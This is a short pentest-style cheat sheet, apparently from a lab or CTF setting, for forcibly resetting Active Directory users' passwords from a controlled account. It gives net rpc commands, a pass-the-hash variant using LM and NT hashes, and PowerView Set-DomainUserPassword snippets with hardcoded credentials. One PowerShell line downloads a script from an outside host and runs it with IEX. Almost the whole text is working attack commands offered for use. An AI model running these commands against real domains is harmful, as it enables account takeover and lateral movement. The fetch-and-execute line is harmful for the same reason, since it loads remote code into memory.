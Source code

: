 ## If password is known:

````bash
net rpc password jamie -U zsm.local/marcus -S 192.168.210.10
net rpc password <target user> -U <domain/user> -S <dc>
````

## PTH:
```bash
pth-net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

## Powershell from another account if password is known:
````powershell
$SecPassword = ConvertTo-SecureString '!QAZ2wsx' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('zsm\marcus', $SecPassword)

$UserPassword = ConvertTo-SecureString 'Pass123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jamie -AccountPassword $UserPassword -Credential $Cred
````

## Powershell if logged into account:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.58.50/PowerView.ps1')  

$NewPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force 

Set-DomainUserPassword -Identity 'backup' -AccountPassword $NewPassword   
```
